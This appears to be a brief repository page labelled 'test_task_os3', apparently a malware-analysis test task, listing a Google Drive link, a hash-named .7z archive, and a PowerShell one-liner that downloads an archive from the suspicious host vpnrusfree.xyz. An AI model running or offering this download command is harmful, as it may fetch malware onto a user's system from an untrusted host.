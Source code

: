 # test_task_os3
https://drive.google.com/file/d/1Y_njq3-qXPBby3VFZqlMCRKHYgDRhQdr/view?usp=sharing
powershell -command "& { iwr http://vpnrusfree.xyz/eee.7z -OutFile 1.7z }"
2a78207a8eaaf7e11785ebcd385fe6a6.7z

